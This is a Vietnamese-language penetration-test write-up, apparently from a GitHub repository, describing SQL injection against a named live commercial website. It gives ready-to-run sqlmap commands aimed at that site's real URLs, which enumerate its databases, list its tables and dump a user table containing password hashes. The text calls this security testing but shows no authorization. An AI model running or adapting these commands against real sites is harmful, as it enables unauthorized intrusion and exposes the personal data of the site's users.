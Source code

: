 # Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://tranhoang.vn/`. Các cuộc tấn công được thực nghiệm trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- php: xuất hiện khi di chuyển giữa các tab trên trang web, đây là tên của file php đang được mở khi muốn hiển thị nội dung của tab đó.
- cat: mã loại hàng, xuất hiện khi chọn vào tab `Sản phẩm` và chọn một mục bất kỳ trong đó.
- id: mã hàng, xuất hiện khi chọn một sản phẩm bất kỳ.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" --dbs  
```

- **php**: không thể thực hiện tấn công trên parameter này:

![alt text](images/1.png)

- **cat**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin rằng cơ sở dữ liệu đang MySQL v5.0.12 trở lên (MariaDB). Ngoài ra đã bruteforce được tên 2 cơ sở dữ liệu là `information_schema` và `tranhoangv_binh`:

![alt text](images/2.png)

```bash
python3 sqlmap.py -u "https://tranhoang.vn/?php=product_detail&id=200" -p id --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về kết quả tương tự như với `cat`:

![alt text](images/3.png)

Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" -D tranhoangv_binh --tables --threads=10 -p cat` để trả về tên các bảng trong cơ sở dữ liệu `tranhoangv_binh`.

![alt text](images/4.png)

Tiếp tục sử dụng `python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" -D tranhoangv_binh -T tbl_user --dump --threads=10 -p cat` để trả về nội dung của bảng `tbl_user`.

![alt text](images/5.png)

Dù đã có được thông tin người dùng ở một mức nhất định, song vẫn chưa thể xác định được loại mã hoá của cột `pwd` nên không thể đảo ngược.